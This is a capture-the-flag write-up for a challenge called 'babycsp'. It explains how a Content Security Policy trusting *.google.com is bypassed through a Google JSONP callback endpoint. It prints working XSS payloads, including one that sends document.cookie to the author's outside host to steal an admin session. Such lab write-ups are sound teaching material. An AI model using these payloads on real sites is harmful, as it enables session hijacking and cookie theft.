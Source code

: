 # WRITEUP BABYCSP

## Author: p4w @beerpwn team

![Image desc](./description.png)

As the descrption/title say we will probably need to bypass CSP to trigger some XSS in order to steal the admin cookies.
Sufing to the index page we have this:

![Image desc](./index.png)

The input that we can pass is totally NOT filtered and safe from XSS.

## Understanding the CSP
The ```script-src 'self' *.google.com``` directive permit to use scripts that are coming from *.google.com, and also from the same domain.
The ```connect-src *``` directive restricts the URLs which can be loaded using script interfaces. Then in this case every URL are allowed.

## Bypassing the CSP
This is what I was thinking during the CTF:
since we can't control directily any file contents from the same domain, then we can try to 'host' some XSS payload on google subdomain. At the beginning I tried to use googleDrive to host some XSS-file but i had no lucky with that and I dind't manage to serve the raw file from google subdomains. So the second idea that comes in my mind was to use JSONP callback. More info about JSONP <a href="https://www.w3schools.com/js/js_json_jsonp.asp">here</a>. So after a bit of googling I found <a href='https://github.com/zigoo0/JSONBee'>this</a> page. So I used this ```https://cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()``` endpoint for JSONP callback.

![Image index](./alert_jsonp.png)

## Fire the XSS
Now with this payload
`<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()'></script>`
we will be able to pop up an alert bypassing the CSP.
The only problem that I had to solve now is that some character are not usable with this JSON endpoint as we can see here:
![Image index](./banned_char_enum.png)
This `? / ,` and probably more others are not allowed to construct the callback function.
So I comed up with this payload to avoid the bad char:
<code>
<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=location.replace(String.fromCharCode(47).concat(String.fromCharCode(47).concat("beerpwn.it").concat(String.fromCharCode(47).concat(document.cookie))))'></script>
</code>

With this payload we can grab the admin-cookie and get the flag:

![Image index](./server_log.png)

flag:
